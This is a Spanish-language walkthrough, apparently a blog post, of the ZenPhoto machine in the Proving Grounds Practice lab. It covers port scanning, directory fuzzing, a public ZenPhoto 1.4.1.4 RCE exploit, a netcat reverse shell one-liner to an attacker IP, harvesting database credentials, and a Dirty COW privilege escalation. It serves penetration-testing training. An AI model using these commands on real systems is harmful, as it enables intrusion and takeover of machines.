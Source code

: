 ```yaml
---
layout: post
title: ZenPhoto (Linux - Intermediate) - Proving Grounds Practice
date: 13.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, HTTP, DirSearch, Fuzzing, ZenPhoto, ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution, PHP, mysql, MYSQL, DataBase, Kernel Exploit, Linux Version, GCC, Dirty, Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method), Linux Kernel 2.6.22, Dirty Cow, PERL, black-hole.pl, Intermediate]
---
```


# Resolución paso a paso de la máquina ZenPhoto:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.162.41 -oG allPorts
```

![image.png](assets/img/post-img/ZenPhoto/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,23,80,3306 --min-rate 5000 192.168.162.41 -oN targeted
```

![image.png](assets/img/post-img/ZenPhoto/image%201.png)

- Vemos que tenemos **4** puertos abiertos, entre ellos **MYSQL** que no nos permite interactuar desde nuestra máquina, Telnet más de lo mismo y para **SSH** no tenemos credenciales. Solo nos queda el puerto **80**, por lo que vamos a realizar un poco de enumeración web, empezando por **FUZZING DE DIRECTORIOS**:

### DIRSEARCH

```powershell
dirsearch  -u http://192.168.162.41/test -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/ZenPhoto/image%202.png)

- Con **DIRSEARCH** conseguimos sacar algo de información y, entre los directorios hay un **ROBOTS.TXT** donde encontramos algunas rutas interesantes, entre ellas una ruta UPLOADED, que en el caso de poder subir alguna **WEBSHELL** o algun archivo malicioso no puede ser útil para poder ejecutarlos.

![image.png](assets/img/post-img/ZenPhoto/image%203.png)

- En el **ROBOTS** también encontramos un directorio **ZP-CORE** que nos redirige a un **ADMIN.PHP** con un **PANEL DE LOGIN** de un gestor de contenido de fotografía e imagenes (**ZenPhoto**). Probamos credenciales por defecto, alguna inyección **SQL** y parece que no conseguimos nada. Lanzamos también **HYDRA** para ir realizando F**UERZA BRUTA** pero tampoco obtenemos resultados.
- En el directorio **TEST** del servidor web, que parece ser el directorio raíz podemos identificar la versión de **ZenPhoto** que se está ejecutando, la **1.4.1.4**:

![image.png](assets/img/post-img/ZenPhoto/image%204.png)

- Investigamos un poco y encontramos un **EXPLOIT** para esa versión en **EXPLOIT-DB**:

[ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution](https://www.exploit-db.com/exploits/18083)

## EXPLOTACIÓN

- Nos descargamos el **EXPLOIT** y lo lanzamos pasándole el **TARGET** y el **DIRECTORIO** y ganamos una **SHELL** bajo el usuario **WWW-DATA**:

```powershell
php 18083.php 192.168.162.41 /test/
```

![image.png](assets/img/post-img/ZenPhoto/image%205.png)

- Para poder operar más comodamente vamos a lanzarnos una **REVERSE SHELL** hacia nuestra máquina atacante y a realizar el tratamiento de la tty:

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.223 4444 >/tmp/f
```

- Recibimos la conexión:

![image.png](assets/img/post-img/ZenPhoto/image%206.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Ahora que ya hemos ganado acceso a la máquina y podemos operar con comodidad podemos leer la primera **FLAG**:

![image.png](assets/img/post-img/ZenPhoto/image%207.png)

### RECONOCIMIENTO

- Empezamos realizando un poco de reconocimiento interno y lanzamos [**LINPEASS.SH](http://LINPEASS.SH).** En el **OUTPUT** encontramos que tenemos levantado el **SERVIDOR MYSQL** desde el que no podiamos acceder desde fuera de la máquina. Intentamos acceder con credenciales por defecto pero no nos deja:

![image.png](assets/img/post-img/ZenPhoto/image%208.png)

![image.png](assets/img/post-img/ZenPhoto/image%209.png)

- Sabemos que tenemos acceso a una **BBDD** por lo que intentamos encontrar credenciales de acceso. Para ello intentamos buscar por el sistema algún archivo ***CONFIG***, en este caso lo buscamos con **LOCATE** y encontramos un archivo **ZP-CONFIG.PHP** donde encontramos las credenciales de acceso a la **BASE DE DATOS**:

```powershell
locate config
```

![image.png](assets/img/post-img/ZenPhoto/image%2010.png)

![image.png](assets/img/post-img/ZenPhoto/image%2011.png)

> 
**User: root**  
**Password: hola**  
**Database: zenphoto**
> 

- Intentamos acceder y vemos que nos obliga a pasarle directamente el nombre de la **BASE DE DATOS** a la que queremos acceder y lo logramos:

```powershell
mysql -u root -p zenphoto -h 127.0.0.1 -P 3306
```

![image.png](assets/img/post-img/ZenPhoto/image%2012.png)

- Una vez dentro de la **BBDD** logramos encontrar credenciales hasheadas del usuario **ADMIN**:

![image.png](assets/img/post-img/ZenPhoto/image%2013.png)

> 
**User: admin**  
**Hash: 63e5c2e178e611b692b526f8b6332317f2ff5513**
> 

- Después de intentar crackear el **HASH** durante un rato no lo logramos e intentamos buscar otra opción para poder escalar nuestros privilegios:

## ESCALADA DE PRIVILEGIOS

- Enumerando el sistemna vemos que tenemos una versión de **LINUX** muy antigua. Buscamos un poquito en **EXPLOIT-DB** y encontramos varios **EXPLOITS**, probamos alguno y no nos funciona pero al final probamos el **DIRTY COW** y no permite elevar privilegios:

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

- Descargamos el **EXPLOIT** y lo transferimos a la máquina víctima para compilarlo desde ahí con **GCC**:

![image.png](assets/img/post-img/ZenPhoto/image%2014.png)

- Una vez compilado lo ejecutamos y nos creará un nuevo usuario “**FIREFART**” con privilegios de **ROOT**, para ello nos pedirá que introduzamos la contraseña que queramos y despues saldremos. Ahora nos logueamos como el nuevo usuario **FIREFART** y le pasamos la contraseña que hemos puesto. Y ya estaremos corriendo con permisos de **ROOT**:

![image.png](assets/img/post-img/ZenPhoto/image%2015.png)

- Ahora ya podemos ir al directorio **ROOT** y leer la **FLAG**:

![image.png](assets/img/post-img/ZenPhoto/image%2016.png)